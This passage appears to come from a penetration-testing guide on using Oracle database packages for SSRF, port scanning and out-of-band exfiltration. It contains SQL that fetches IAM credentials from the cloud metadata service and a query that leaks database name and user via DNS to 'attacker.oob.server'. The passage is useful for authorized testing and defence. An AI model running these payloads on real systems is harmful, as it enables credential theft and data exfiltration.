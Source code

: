 ```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```

You could additionally, use this to perform some rudimentary port scanning as well with queries like

```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```

A `ORA-12541: TNS:no listener` or a `TNS:operation timed out` is a sign that the TCP port is closed, whereas a `ORA-29263: HTTP protocol error` or data is a sign that the port is open.

Another package I have used in the past with varied success is the [`GETCLOB()` method of the `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) that allows you to interact with a URL and provides support for the HTTP protocol. The `GETCLOB()` method is used to fetch the GET response from a URL as a [CLOB data type.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)

```
SELECT HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() FROM dual;
```

---

## Additional Packages & Techniques (Oracle 19c → 23c)

### UTL_INADDR – DNS-based exfiltration and host discovery

`UTL_INADDR` exposes simple name-resolution helpers that trigger an outbound DNS lookup from the database host.  Because only a domain is required (no port/ACL needed) it is a reliable primitive for blind-exfil when other network callouts are blocked.

```sql
-- Leak the DB name and current user via a DNS query handled by Burp Collaborator
SELECT UTL_INADDR.get_host_address(
         (SELECT name FROM v$database)||'.'||(SELECT user FROM dual)||
         '.attacker.oob.server') FROM dual;
```

`get_host_address()` returns the resolved IP (or raises `ORA-29257` if resolution fails).  The attacker only needs to watch for the incoming DNS request on the controlled domain to confirm code execution.

### DBMS_CLOUD.SEND_REQUEST – full HTTP client on Autonomous/23c

Recent cloud-centric editions (Autonomous Database, 21c/23c, 23ai) ship with `DBMS_CLOUD`.  The `SEND_REQUEST` function acts as a general-purpose HTTP client that supports custom verbs, headers, TLS and large bodies, making it far more powerful than the classical `UTL_HTTP`.

```sql
-- Assuming the current user has CREATE CREDENTIAL and network ACL privileges
BEGIN
  -- empty credential when no auth is required
  DBMS_CLOUD.create_credential(
      credential_name => 'NOAUTH',
      username        => 'ignored',
      password        => 'ignored');
END;
/

DECLARE
  resp  DBMS_CLOUD_TYPES.resp;
BEGIN
```